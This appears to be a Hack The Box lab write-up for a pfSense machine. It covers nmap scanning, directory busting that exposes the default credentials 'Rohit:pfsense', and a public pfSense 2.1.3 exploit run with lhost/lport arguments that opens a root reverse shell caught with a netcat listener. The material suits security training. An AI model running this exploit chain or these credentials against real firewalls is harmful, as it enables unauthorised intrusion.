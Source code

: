 Tags: #htb, #hacking 
Related to: #practice, #htb, #write-up, #rce, #pfsense,
Index: [[🗂️Index of HTB Writeups]] 

#### First things First!

###### Quick fast scan on top 100 ports
```sh
nmap -F -Pn -T4 10.10.10.60
```

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-02 22:12 EDT
Nmap scan report for 10.10.10.60
Host is up (0.047s latency).
Not shown: 98 filtered tcp ports (no-response)
PORT    STATE SERVICE
80/tcp  open  http
443/tcp open  https

Nmap done: 1 IP address (1 host up) scanned in 15.23 seconds
```

We have port 80 and 443 Open

Same result for top 1k ports scan and all port scan

Default scripts scan and Version scan on Port 443 and 80

```sh
map -sC -sV -Pn  -p443,80 10.10.10.60                      
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-02 22:14 EDT
Nmap scan report for 10.10.10.60
Host is up (0.072s latency).

PORT    STATE SERVICE  VERSION
80/tcp  open  http     lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
443/tcp open  ssl/http lighttpd 1.4.35
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_http-title: Login
|_http-server-header: lighttpd/1.4.35
|_ssl-date: TLS randomness does not represent time

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.72 seconds

```

We have - lighttpd 1.4.35 - server
Nothing interesting (no interesting vulns)

Tried to browse the page and I get a login page.

![[Pasted image 20230803074949.png]]

Lets dirbust and also think of sign in bypass

Found  this endpoint during dirbusting
`\tree`

![[Pasted image 20230803084734.png]]

**Found version:**
SilverStripe Tree Control: v0.1,

https://www.exploit-db.com/exploits/34113 - Possible vuln

https://www.exploit-db.com/raw/34113

Changes made

```sh
host = '10.10.10.60'
port = 80
path = '/tree'
```

Exploit doesn't seem to work

---
Dirbusting reveals
changelog.txt & system-users.txt.

![[Pasted image 20230803102904.png]]

![[Pasted image 20230803102930.png]]

Creds
Rohit:pfsense

pfsense is default password for pfsense firewall

---

![[Pasted image 20230803103037.png]]

We can see the version of pfsense is 2.1.3
![[Pasted image 20230803103223.png]]

We copy exploit to our directory
![[Pasted image 20230803103329.png]]

On checking exploit we see that it takes the arguments and runs a python reverse shell

```sh
python 43560.py --rhost 10.10.10.60 --lhost 10.10.14.10 --lport 4443 --username rohit --password pfsense
```

We get a direct root shell

```sh
└─$ nc -nlvp 4443
listening on [any] 4443 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.60] 55834
sh: can't access tty; job control turned off
# whoami
root
# 
```

Root flag🚩 in /root/root.txt
User flag 🚩 in /home/rohit/user.txt
